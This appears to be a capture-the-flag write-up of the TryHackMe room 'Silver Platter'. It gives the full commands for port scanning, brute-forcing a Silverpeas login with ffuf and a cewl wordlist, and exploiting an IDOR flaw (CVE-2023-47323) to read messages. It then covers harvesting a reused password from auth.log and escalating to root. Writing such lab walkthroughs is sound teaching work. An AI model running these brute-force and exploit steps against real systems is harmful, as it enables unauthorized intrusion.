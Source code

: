 ```yaml
---
title: "TryHackMe: Silver Platter"
author: Kasem Shibli
categories: [TryHackMe]
tags: [web, brute-force, ffuf, idor, ssh, adm, log]
render_with_liquid: false
media_subpath: /images/tryhackme_silver_platter/
image:
  path: room_image.webp
---
```


**Silver Platter** was a simple room where we discovered a **Silverpeas** installation along with a username. We brute-forced the user's password using a custom wordlist to gain access to **Silverpeas**, and by exploiting a vulnerability in it that allows an authenticated user to read all the messages, we uncovered **SSH** credentials in one of them.

Using the discovered credentials to gain a shell, we found a password in the logs and used it to escalate to the **root** user, completing the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/silverplatter){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.191.243
Nmap scan report for 10.10.191.243
Host is up (0.089s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **8080** (`HTTP`)

### Web 80

Checking `http://10.10.191.243/`, we find a static site.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

### Web 8080

Checking `http://10.10.191.243:8080/`, we simply receive a `404` error.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

## Shell as tim

### Discovering Silverpeas

In the **Contact** section on port **80** (`http://10.10.191.243/#contact`), we find an interesting message mentioning `Silverpeas` and a username: `scr1ptkiddy`.

![Web 80 Contact](web_80_contact.webp){: width="1200" height="600"}

`Silverpeas` typically runs on `:8080/silverpeas` and visiting `http://10.10.191.243:8080/silverpeas`, we find the login page for it.

![Web 8080 Silverpeas](web_8080_silverpeas.webp){: width="1200" height="600"}

### Brute-forcing the Credentials

The contact page provides a username, and the challenge room states a password policy that disallows breached passwords. So, instead of using a wordlist like `rockyou.txt`, we can generate a custom wordlist from the text in the web application on port **80** using `cewl`:

```console
$ cewl http://10.10.191.243/ > passwords.txt
```

Now, using this wordlist with `ffuf` to brute-force the password for the `scr1ptkiddy` user, we find it as `a[REDACTED]g`:

```console
$ ffuf -u 'http://10.10.191.243:8080/silverpeas/AuthenticationServlet' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'Login=scr1ptkiddy&Password=FUZZ&DomainId=0' -w passwords.txt -r -mc all -t 100 -fs 8282
...
a[REDACTED]g              [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 2399ms]
```
{: .wrap }

### Reading Messages

Using the discovered credentials, we successfully log in as `scr1ptkiddy` to **Silverpeas**.

![Web 8080 Silverpeas Dashboard](web_8080_silverpeas_dashboard.webp){: width="1200" height="600"}

Searching for vulnerabilities in **Silverpeas**, we find [**CVE-2023-47323**](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323), which allows reading all messages via the `http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]` endpoint.

Exploiting this vulnerability to read the messages, when we read the message with ID `6` (`http://10.10.191.243:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`), we find the **SSH** credentials for the `tim` user.

![Web 8080 Silverpeas Messages](web_8080_silverpeas_messages.webp){: width="1200" height="600"}

Using these credentials, we can gain a shell and read the user flag at `/home/tim/user.txt`:

```console
$ ssh tim@10.10.191.243
...
tim@silver-platter:~$ wc -c user.txt
38 user.txt
```

## Shell as root

### Finding the Password

Checking the group memberships for the `tim` user, we see that the user belongs to the `adm` group:

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

As a member of the `adm` group, we can read most logs on the machine and searching the logs for passwords, we find one in `auth.log` for the **Silverpeas** database:

```console
tim@silver-platter:~$ grep -Ri 'password' /var/log 2>/dev/null
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Z[REDACTED]3/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```
{: .wrap }

Checking the `/etc/passwd` file, we see that, apart from the `tim` user, there is also the `tyler` user.

```console
tim@silver-platter:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

Testing the password we discovered for the `tyler` user, we successfully switch users:

```console
tim@silver-platter:~$ su - tyler
Password:
tyler@silver-platter:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

Checking `sudo` privileges for `tyler`, we see full access:

```console
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

With this, we can use `sudo` to escalate to the `root` user and read the root flag at `/root/root.txt` to complete the room.

```console
tyler@silver-platter:~$ sudo su -
root@silver-platter:~# wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
